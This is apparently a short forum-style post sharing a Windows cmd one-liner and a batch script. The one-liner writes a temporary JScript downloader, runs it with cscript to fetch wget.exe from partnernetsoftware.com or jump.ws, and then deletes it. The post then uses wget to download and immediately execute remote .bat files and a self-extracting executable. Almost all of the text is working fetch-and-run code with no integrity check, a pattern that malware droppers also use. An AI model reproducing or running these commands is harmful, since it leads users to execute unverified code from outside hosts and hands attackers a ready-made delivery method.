 ```
set f="%random%.js" && echo with(WScript){if(CreateObject("Scripting.FileSystemObject").FileExists(arguments(1))){Quit();}with(CreateObject("MSXML2.ServerXMLHTTP")){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject("ADODB.Stream")){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}} >%f% && cscript /nologo %f% partnernetsoftware.com/wget64.1.20.3.exe w.exe && del %f% /f /q && dir w.exe
```
Yup, u now can do anything start from w.exe

for example 
> w -qO - https://www.google.com/

or

> w -q some-remote-file-url -o local-file-installer.exe && local-file-installer.exe

for example

> set f="%random%.js" && echo with(WScript){if(CreateObject("Scripting.FileSystemObject").FileExists(arguments(1))){Quit();}with(CreateObject("MSXML2.ServerXMLHTTP")){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject("ADODB.Stream")){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}} >%f% && cscript /nologo %f% http://jump.ws/wget.exe w.exe && del %f% /f /q && w -q http://jump.ws/php5444.bat -O php5444.bat && php5444.bat -m


finally:
```
@echo off
set ndl=0
set p0=%~dp0
set ph=%p0%php5444tool\php.exe
set st=0
:st

if exist "%ph%" (
	if "%1" EQU "" (%ph% test.php) else (%ph% %1 %2 %3 %4 %5 %6 %7 %8 %9)
) else (
	if %st% NEQ 1 (
		if exist dl.js del /f /q dl.js
		@set ss="with(WScript){if(CreateObject('Scripting.FileSystemObject').FileExists(arguments(1))){Quit();}with(CreateObject('MSXML2.ServerXMLHTTP')){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject('ADODB.Stream')){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}}"
		@for /f "delims=" %%a in (%ss%) do echo %%a > dl.js

		cscript /nologo dl.js "http://jump.ws/wget.exe" "wget.exe"
		if exist dl.js del /f /q dl.js

		wget -c -O php5444mini4tool.exe http://jump.ws/php5444mini4tool.exe
		mkdir php5444tool
		cd php5444tool
		..\php5444mini4tool.exe -x
		cd ..
		copy php5444tool\test.php .\
		del /f /q php5444mini4tool.exe
		set st=1 && goto st
	)
)
:ed
```
---

PLEASE FOLLOW ME IF YOU LIKE THIS
